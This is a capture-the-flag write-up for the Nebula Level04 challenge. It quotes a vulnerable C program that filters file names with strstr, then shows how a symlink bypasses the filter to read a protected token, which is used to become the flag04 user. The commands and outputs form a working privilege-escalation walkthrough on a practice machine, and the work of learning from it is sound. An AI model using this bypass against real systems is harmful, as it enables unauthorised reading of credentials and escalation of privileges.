 * Level04
  :PROPERTIES:
  :CUSTOM_ID: level04
  :END:
** Task
   :PROPERTIES:
   :CUSTOM_ID: task
   :END:

#+begin_quote
  This level requires you to read the token file, but the code restricts
  the files that can be read. Find a way to bypass it :)
#+end_quote

#+begin_quote
  To do this level, log in as the level04 account with the password
  level04. Files for this level can be found in /home/flag04.
#+end_quote

#+begin_src C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
#+end_src

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:
The binary looks for a file and opens it if you have permissions. to
open the =/home/flag04/token= i create a symbolic link to =/tmp/test=
and am then able to open the file with the binary.

#+begin_example
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/test
#+end_example

#+begin_example
level04@nebula:/home/flag04$ ./flag04 /tmp/test
06508b5e-8909-4f38-b630-fdb148a848a2
#+end_example

#+begin_example
level04@nebula:/home/flag04$ su flag04
Password: 06508b5e-8909-4f38-b630-fdb148a848a2
sh-4.2$ getflag
You have successfully executed getflag on a target account
#+end_example
